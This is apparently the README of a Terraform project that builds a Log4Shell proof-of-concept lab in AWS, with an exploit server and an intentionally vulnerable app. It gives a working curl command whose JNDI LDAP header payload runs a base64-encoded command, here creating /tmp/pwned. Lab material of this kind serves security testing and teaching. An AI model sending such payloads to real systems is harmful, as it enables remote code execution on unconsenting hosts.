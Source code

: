 # terraform-log4shell

Log4Shell POC Using Terraform

# About

This terraform creates two instances on a VPC in AWS Cloud:

- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit)
- [Vulnerable-App](https://github.com/christophetd/log4shell-vulnerable-app)

Please ensure that you have configured aws cli with your Access key ID and Secret access key.
In order to ssh into the ec2 instances, please update ssh public key in terraform before running terraform apply

```bash
terraform init
terraform plan
terraform apply --auto-approve
```

# Exploitation (Remote Code Execution) Steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk**._

- Trigger the exploit using:

```bash
curl ${log4shellapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned` was created in log4shellapp's container. First ssh into log4shellapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti vulnerable-app ls /tmp
...
pwned
...
```

## Reference

- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://bigb0ss.medium.com/appsec-log4shell-cve-2021-44228-606f91e56866
